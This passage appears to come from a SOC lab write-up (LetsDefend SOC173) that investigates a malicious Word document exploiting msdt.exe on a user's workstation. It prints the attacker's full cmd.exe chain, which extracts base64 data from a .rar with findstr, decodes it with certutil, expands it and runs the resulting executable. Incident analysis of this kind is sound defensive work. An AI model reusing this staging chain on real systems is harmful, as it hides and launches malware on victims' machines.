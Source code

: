 💡To show more Hybrid Analysis result [Click Here](https://www.hybrid-analysis.com/sample/4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784)

---

### Now the doc file confirmed as malicious☠️

we can proceed to investigate further for other anomalies on `Jonas’s workstation` or in the `log management` tab.

| ![Screenshot For The Alert](/assets/images/LetsDefend/SOC173/8.png) | 
|:--:| 
| *Terminal History* |



```python
C:/windows/system32/cmd.exe /c cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe
```

```python
C:/windows/system32/cmd.exe /c 
cd C:/users/public/&&
for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&
findstr TVNDRgAAAA 1.rar>1.t&&
certutil -decode 1.t 1.c &&
expand 1.c -F:* .&&
rgb.exe
```
<details><summary>
  Explain this command that the attacker run in Powershell
  </summary></details>

---

>If the attacker exploit the `msdt.exe` successfully, it means the malicious `05-2022-0438.doc` had successfully establish homing connection to malicious domain and processed the malicious HTML which contains `msdt command line` embedded with `PowerShell` syntax. 

---

### Now Let's looking for the Log Management.
